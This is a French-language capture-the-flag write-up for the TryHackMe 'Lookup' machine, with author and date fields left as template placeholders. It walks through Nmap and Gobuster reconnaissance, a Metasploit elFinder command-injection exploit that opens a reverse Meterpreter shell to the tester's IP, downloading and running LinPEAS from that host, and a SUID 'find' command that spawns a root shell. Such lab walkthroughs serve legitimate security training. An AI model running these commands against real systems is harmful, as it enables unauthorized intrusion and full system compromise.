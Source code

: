 # **TryHackMe - Lookup Write-Up**  
> **Difficulté** : Facile  
> **OS** : Linux  
> **Auteur** : @TonPseudo  
> **Date** : JJ/MM/AAAA  

---

## **🖥️ 1. Reconnaissance**  
### 🔍 **1️⃣ Scan Nmap**
On commence par scanner la machine avec **Nmap** pour voir les ports ouverts :  
```bash
nmap -sC -sV -oN scan.txt 10.10.16.70
```
🔹 **Explication** :  
- `-sC` : Lance des scripts de détection par défaut.  
- `-sV` : Identifie les versions des services.  
- `-oN scan.txt` : Sauvegarde les résultats dans un fichier.

**Résultat :**
```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.6p1 (Ubuntu)
80/tcp   open  http     Apache httpd 2.4.29
```
👉 On remarque que **SSH (22)** et **HTTP (80)** sont ouverts.  

---

## **🌐 2. Enumeration Web**  
### 🔹 **Accès au site web**
On ouvre **http://lookup.thm/** dans le navigateur.  
Le site affiche une page basique sans information importante.

### 🔹 **Fuzzing des sous-domaines avec Gobuster**
On va chercher des **sous-domaines cachés** avec **Gobuster** :
```bash
gobuster vhost -u http://lookup.thm/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50
```
**Résultat :**
```
Found: files.lookup.thm (Status: 200)
```
👉 Un sous-domaine **files.lookup.thm** existe !  

### 🔹 **Ajout dans `/etc/hosts`**
On ajoute ce sous-domaine pour pouvoir y accéder :
```bash
sudo nano /etc/hosts
```
Ajoute cette ligne :
```
10.10.16.70  lookup.thm files.lookup.thm
```

### 🔹 **Accès à `files.lookup.thm`**
En visitant **http://files.lookup.thm/**, on voit une **interface de gestion de fichiers** (elFinder).  
👉 **elFinder est connu pour avoir des vulnérabilités !**

---

## **🚀 3. Exploitation - Command Injection**
### 🔹 **Recherche d'une Exploitation Possible**
On cherche sur Google :  
**"elFinder PHP Connector exploit"**  
➡️ On trouve que la version de **elFinder** utilisée ici est vulnérable à une **command injection** via `exiftran`.

### 🔹 **Exploitation avec Metasploit**
On utilise **Metasploit** pour automatiser l'exploitation :
```bash
msfconsole
use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
set RHOSTS 10.10.16.70
set TARGETURI /php/connector.php
set LHOST 10.11.125.223  # Ton IP Tun0 (VPN)
set LPORT 4444
run
```
💥 **Shell obtenu !**  
```
meterpreter > whoami
www-data
```
👉 On a un shell avec l’utilisateur **www-data**.

---

## **🛠️ 4. Escalade de Privilèges**
On veut passer de **www-data** à **root**.  
On lance **LinPEAS** pour détecter des failles :
```bash
wget http://10.11.125.223:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
🔹 **LinPEAS détecte un fichier SUID suspect :**
```
/usr/bin/find has SUID bit set
```
On regarde dans **GTFOBins** si `find` peut être exploité pour devenir root :
```bash
find . -exec /bin/sh -p \; -quit
```
💥 **Root obtenu !**
```bash
whoami
root
```

---

## **🏆 5. Capture du Flag**
On récupère les flags :  

🔹 **User flag** :
```bash
cat /home/user/user.txt
```
🔹 **Root flag** :
```bash
cat /root/root.txt
```

---

## **🎯 Conclusion**
✅ **Méthodologie utilisée :**
1. **Nmap** → Ports ouverts.
2. **Gobuster** → Trouver un sous-domaine caché.
3. **Exploit elFinder** → Command Injection avec Metasploit.
4. **LinPEAS** → Trouver un binaire SUID exploitable.
5. **GTFOBins** → Élever les privilèges et devenir root.

💡 **Leçon apprise :**
- **Ne jamais ignorer les sous-domaines** !
- **Toujours tester les applications web pour des exploits connus.**
- **LinPEAS + GTFOBins = Escalade de privilèges efficace !**

---

